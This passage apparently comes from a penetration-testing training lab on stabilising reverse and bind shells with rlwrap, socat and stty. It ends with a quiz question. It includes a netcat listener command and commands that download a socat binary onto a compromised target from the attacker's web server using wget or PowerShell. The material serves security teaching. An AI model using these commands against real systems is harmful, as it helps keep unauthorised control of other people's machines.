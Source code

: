 ![](https://i.imgur.com/bQnFz1T.png)

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

**Technique 2: rlwrap**

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

To use rlwrap, we invoke a slightly different listener: `rlwrap nc -lvnp <port>`

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

**Technique 3: Socat**

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (s`udo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.

With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns:

![](https://i.imgur.com/7aOKtlO.png)

Next, in your reverse/bind shell, type in: `stty rows <number>`

and `stty cols <number>`

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

1. How would you change your terminal size to have 238 columns?
